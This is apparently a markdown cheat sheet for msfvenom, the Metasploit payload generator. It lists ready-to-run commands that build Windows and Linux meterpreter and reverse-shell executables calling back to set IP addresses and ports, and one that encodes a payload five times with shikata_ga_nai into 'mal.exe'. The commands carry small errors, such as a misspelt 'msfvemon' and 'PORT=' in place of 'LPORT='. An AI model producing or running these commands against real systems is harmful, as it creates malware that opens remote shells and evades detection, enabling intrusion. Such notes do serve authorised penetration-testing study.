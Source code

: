# Msfvenom

> ## **Syntax**

    msfvenom -p [payload] LHOST=[MyIP] LPORT=[DesiredPort] -f [Format] -o [YourMalwareFile]

`Example for a Windows Machine`

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=1234 -f exe -o MyFile.exe

`Example for a Linux Machine`

    msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=1234 -f raw -o MyFile.exe


`Format Help`

    msfvemon --help-formats

------

> ## **Payloads**

`List of payloads`

    -l payloads

`Format`

    $ msfvenom –p [ExploitPath] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort] –f [FormatType]

`Example`

Reverse Meterpreter payload as an executable and redirected into a file:

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.1  PORT=4444 –f exe > met.exe

Reverse TCP payload as an EXE creating the Wise.exe program

    $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.138.131 LPORT=7777 -f exe -o Wise.exe

` Format Options (specified with –f)` 

| **Option** | **Description** |
|------------|-----------------|
|`--help-formats` | Print out a summary of the specified options |
|`exe` | Executable |
| `pl` | Perl |
| `rb` | Ruby |
| `raw` | Raw shellcode |
| `c` | C code |

------

> ## **Encoders**

`List of encoders`

    -l encoders

    $ msfvenom –p [Payload] -e [Encoder] -f [FormatType (exe, perl, ruby, raw, c)] -i [EncodeInterations] -o [OutputFilename]

`Example`

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

    $ msfvenom –p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe -o mal.exe